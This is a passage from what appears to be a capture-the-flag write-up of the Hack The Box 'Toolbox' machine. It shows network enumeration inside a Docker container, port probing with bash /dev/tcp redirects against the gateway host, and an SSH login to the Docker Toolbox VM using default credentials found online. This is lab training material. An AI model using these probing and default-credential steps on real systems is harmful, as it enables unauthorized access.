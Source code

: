 ```bash
ifconfig
ip a
route -n            # --> 0.0.0.0         172.17.0.1
```

<br/>
<img src="{{ site.img_path }}/toolbox_writeup/Toolbox_25.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/toolbox_writeup/Toolbox_26.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/toolbox_writeup/Toolbox_27.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/toolbox_writeup/Toolbox_28.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/toolbox_writeup/Toolbox_29.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/toolbox_writeup/Toolbox_30.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/><br/>

If I try to send a packet to verify connectivity with the victim host machine, I do not have the `ping` binary installed. I also remember that with **FTP** we could download the `docker-toolbox.exe` executable, which would indicate that it is installed on the machine. If I search in some search engine for **"docker-toolbox ssh"**, I find a publication where I get the default credentials to connect via SSH, **[Docker Toolbox SSH Login](https://stackoverflow.com/questions/32027403/docker-toolbox-ssh-login){:target="_blank"}** , I send empty strings to the ports of the victim host to check which ones are open and **SSH** if it is. I connect successfully and if I check with `hostname` if I am already on the host machine, it shows me an interface that corresponds to **Hack The Box** IP. It could be another container where **Docker-Toolbox** is being managed. I have problems with the terminal, it constantly logs me out.

```bash
ping -c 1 172.17.0.1

echo '' > /dev/tcp/172.17.0.1/22
echo $?
# 0     :)

echo '' > /dev/tcp/172.17.0.1/80
echo $?
# 1     :(

echo '' > /dev/tcp/172.17.0.1/21
echo $?
# 1     :(

ssh docker@172.17.0.1

hostname -I
hostname
ip a
# 10.0.2.15

whoami
# docker

```